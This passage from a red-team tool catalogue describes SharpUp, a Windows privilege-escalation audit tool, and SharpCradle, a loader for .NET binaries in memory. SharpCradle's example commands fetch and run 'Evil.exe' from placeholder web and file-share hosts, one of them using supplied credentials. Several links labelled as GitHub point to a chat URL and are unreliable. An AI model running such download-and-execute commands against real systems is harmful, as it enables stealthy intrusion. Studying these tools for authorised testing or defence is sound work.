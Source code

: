     ```
    
    [SharpGmailC2 on GitHub](https://github.com/reveng007/SharpGmailC2)
    
    ## **SharpUp**
    
    ### **Description**
    
    SharpUp is a C# port of various PowerUp functionality, focusing on common vulnerability checks without weaponization functions.
    
    ### **Functionality**
    
    - Performs various vulnerability checks on Windows systems.
    - Includes an audit mode to run checks regardless of process integrity or group membership.
    
    ### **Example Commands**
    
    ```
    SharpUp.exe audit
    SharpUp.exe HijackablePaths
    SharpUp.exe audit HijackablePaths
    
    ```
    
    [SharpUp on GitHub](https://chat.openai.com/c/9e321686-67de-438f-8cf1-39b8d4ea4738#)
    
    ---
    
    ## **SharpCradle**
    
    ### **Description**
    
    SharpCradle assists penetration testers or red teams in downloading and executing .NET binaries directly into memory.
    
    ### **Functionality**
    
    - Downloads and executes .NET binaries in memory.
    - Supports downloading from web servers and file servers, with or without credentials.
    
    ### **Example Commands**
    
    ```
    SharpCradle.exe -w <https://IP/Evil.exe>
    SharpCradle.exe -f \\\\IP\\share\\Evil.exe
    SharpCradle.exe -f -c domain username password \\\\IP\\share\\Evil.exe
    SharpCradle.exe -p <https://192.168.1.10/EvilProject.csproj>
    
    ```
    
    [SharpCradle on GitHub](https://chat.openai.com/c/9e321686-67de-438f-8cf1-39b8d4ea4738#)
    
    ---
    